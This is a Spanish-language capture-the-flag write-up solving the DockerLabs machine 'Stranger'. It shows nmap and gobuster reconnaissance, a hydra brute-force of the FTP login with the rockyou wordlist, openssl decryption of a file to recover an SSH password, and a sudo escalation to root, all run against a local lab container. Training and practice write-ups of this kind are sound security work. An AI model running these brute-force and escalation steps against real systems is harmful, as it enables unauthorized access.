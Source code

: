 #MAQUINA #DOCKERLABS #MEDIO 
#OPENSSL
<hr>

# RECONOCIMIENTO

Vamos a resolver **Stranger** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 15:27 CET
Initiating ARP Ping Scan at 15:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:27, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:27, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-24 15:27:30 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **21(FTP),22(SSH),** **80(HTTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,21,80 172.17.0.2                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 15:28 CET
Nmap scan report for 172.17.0.2
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:af:01:77:e8:fc:a4:95:85:6b:5c:9c:c7:c1:d3:98 (ECDSA)
|_  256 36:7e:d3:25:fa:59:38:8f:2e:21:f9:f0:28:a4:7e:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: welcome
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: my; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.91 seconds




```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 15:29 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)

Al entrar vemos un posible usuario -> **mwheeler**
Usamos **gobuster** para enumerar:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,html,php,js,txt,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 231]
/strange              (Status: 301) [Size: 310] [--> http://172.17.0.2/strange/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Vamos a ver que hay dentro con **gobuster**:
```bash
gobuster dir -u http://172.17.0.2/strange/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/strange/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,png,jpg,html,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 3040]
/private.txt          (Status: 200) [Size: 64]
/secret.html          (Status: 200) [Size: 172]
/.html                (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

# EXPLOTACION

En el **secret.html** :

```bash
## The ftp user is admin, but the password is ...

### You must discover it.

#### A hint: The **rockyou** diccionary is correct for use!
```

Vamos a usar **hydra**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-24 15:44:47
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://172.17.0.2:21/
[21][ftp] host: 172.17.0.2   login: admin   password: banana
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-24 15:45:15

```

Al entrar al **ftp**, vemos una clave privada, la descargamos.

Al acceder al **private.txt**, nos descarga un archivo cifrado.

Vamos a descifrar:

```bash
openssl rsautl -decrypt -in private.txt -out private.txt.out -inkey private_key.pem
cat private.txt.out
demogorgon
```

**Contra -> demogorgon**

Entramos via ssh, usuario **mwheeler**.

YA ESTAMOS COMO MWHEELER.


# ESCALADA PRIVILEGIOS

Probamos las credenciales de admin anteriores.

YA ESTAMOS COMO ADMIN.

Vemos si el usuario tiene permisos SUDO y puede hacer cualquier cosa:
   ```bash
admin@16bcbb2612d2:~$ sudo -l
Matching Defaults entries for admin on 16bcbb2612d2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User admin may run the following commands on 16bcbb2612d2:
    (ALL) ALL
admin@16bcbb2612d2:~$ sudo bash -p
root@16bcbb2612d2:/home/admin# whoami
root
root@16bcbb2612d2:/home/admin# 
```

**YA ESTAMOS COMO ROOT.